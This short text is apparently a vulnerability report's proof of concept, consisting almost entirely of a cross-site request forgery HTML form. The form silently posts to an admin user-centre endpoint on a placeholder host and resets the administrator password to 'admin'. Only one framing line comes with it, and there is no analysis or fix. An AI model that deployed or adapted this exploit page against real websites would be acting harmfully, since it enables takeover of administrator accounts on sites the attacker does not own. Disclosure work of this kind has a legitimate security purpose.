 After logging in, change the administrator password using the following POC
Password change to admin
POC:
<html>
  <body>
    <form action="http://www.a.com/admin.php/Index/ucenter" method="POST">
      <input type="hidden" name="formcheck" value="2335e6aa69c86829956978314ea54e23" />
      <input type="hidden" name="username" value="admin" />
      <input type="hidden" name="realname" value="%E8%B6%85%E7%BA%A7%E7%AE%A1%E7%90%86%E5%91%98" />
      <input type="hidden" name="cpassword" value="123456" />
      <input type="hidden" name="password" value="admin" />
      <input type="hidden" name="rpassword" value="admin" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
